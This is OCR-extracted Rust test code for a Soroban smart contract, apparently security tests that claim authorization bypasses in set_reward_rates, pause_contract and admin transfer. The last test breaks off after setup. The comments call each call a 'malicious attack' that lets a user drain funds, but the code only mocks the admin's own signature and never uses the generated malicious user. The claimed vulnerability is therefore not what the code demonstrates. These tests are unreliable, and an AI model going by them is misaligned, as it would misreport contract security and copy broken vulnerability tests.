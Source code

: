 ```rust
    fn test_critical_auth_bypass_set_reward_rates() {
        let env = Env::default();
        let (contract, admin, _) = test_setup::setup_contract(&env);

        // Create malicious user
        let malicious_user = Address::generate(&env);
        
        // MALICIOUS ATTACK: Malicious user calls admin function with admin's signature
        // This should NOT be possible but the current implementation allows it!
        let malicious_rates = RewardRates {
            level1: 9999, // 99.99% - attempt to drain funds
            level2: 9999,
            level3: 9999,
            max_reward_per_referral: 999999999,
        };

        // VULNERABILITY: Malicious user can call admin function if admin signs
        env.mock_auths(&[soroban_sdk::testutils::MockAuth {
            address: &admin, // Admin signature
            invoke: &soroban_sdk::testutils::MockAuthInvoke {
                contract: &contract.address,
                fn_name: "set_reward_rates",
                args: (malicious_rates.clone(),).into_val(&env),
                sub_invokes: &[],
            },
        }]);
        
        // This should FAIL (panic) but currently SUCCEEDS due to vulnerability
        contract.set_reward_rates(&malicious_rates);
    }

    #[test]
    fn test_critical_auth_bypass_pause_contract() {
        let env = Env::default();
        let (contract, admin, _) = test_setup::setup_contract(&env);

        // Create malicious user
        let malicious_user = Address::generate(&env);
        
        // MALICIOUS ATTACK: Malicious user pauses contract with admin's signature
        env.mock_auths(&[soroban_sdk::testutils::MockAuth {
            address: &admin, // Admin signature
            invoke: &soroban_sdk::testutils::MockAuthInvoke {
                contract: &contract.address,
                fn_name: "pause_contract",
                args: ().into_val(&env),
                sub_invokes: &[],
            },
        }]);
        
        // This should FAIL (panic) but currently SUCCEEDS due to vulnerability
        contract.pause_contract();
    }

    #[test]
    fn test_critical_auth_bypass_transfer_admin() {
        let env = Env::default();
        let (contract, admin, _) = test_setup::setup_contract(&env);

        // Create malicious user and target
        let malicious_user = Address::generate(&env);
        let attacker_controlled_address = Address::generate(&env);
        
```